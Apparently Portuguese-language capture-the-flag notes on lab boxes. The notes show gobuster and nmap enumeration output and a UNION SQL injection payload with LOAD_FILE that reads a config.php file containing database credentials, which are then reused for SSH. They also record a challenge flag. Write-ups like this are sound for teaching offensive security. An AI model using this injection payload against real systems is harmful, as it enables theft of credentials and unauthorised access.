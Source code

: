     Reparams que a flag que o site está a procura para adicionar o jogadores é a seguinte UHC{F1rst_5tep_2_Qualify}
    
    Como o site é vulnerável a um sql injection podemos retirar dados de acesso ao site
    
    ```
    └──╼ [★]$ gobuster dir -u http://10.129.7.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.7.248
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2024/01/30 15:32:39 Starting gobuster in directory enumeration mode
    ===============================================================
    /index.php            (Status: 200) [Size: 1220]
    /css                  (Status: 301) [Size: 178] [--> http://10.129.7.248/css/]
    /firewall.php         (Status: 200) [Size: 13]                                
    /config.php           (Status: 200) [Size: 0]                                 
    /challenge.php        (Status: 200) [Size: 772]
    ```
    
    Com o gobuster sabemos alguns dos ficheiros que existem no site
    
    Para fazermos inclusão de ficheiros num sql request fazemos o seguinte 
    
    `player=' union select LOAD_FILE('/var/www/html/config.php')-- -`
    
    ```
    Sorry, <?php
      session_start();
      $servername = "127.0.0.1";
      $username = "uhc";
      $password = "uhc-11qual-global-pw";
      $dbname = "november";
    
      $conn = new mysqli($servername, $username, $password, $dbname);
    ?>
     you are not eligible due to already qualifying.
    ```
    
    Daqui tiramos a credenciais para aceder via ssh
    
- Configuration manager
    
    Nmap 
    
    ```
    nmap -p- 10.10.11.222
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 10:54 BST
    Nmap scan report for 10.10.11.222
    Host is up (0.012s latency).
    Not shown: 65507 closed tcp ports (conn-refused)
    PORT STATE SERVICE
    53/tcp open domain
    80/tcp open http
    88/tcp open kerberos-sec
    135/tcp open msrpc
    139/tcp open netbios-ssn
    389/tcp open ldap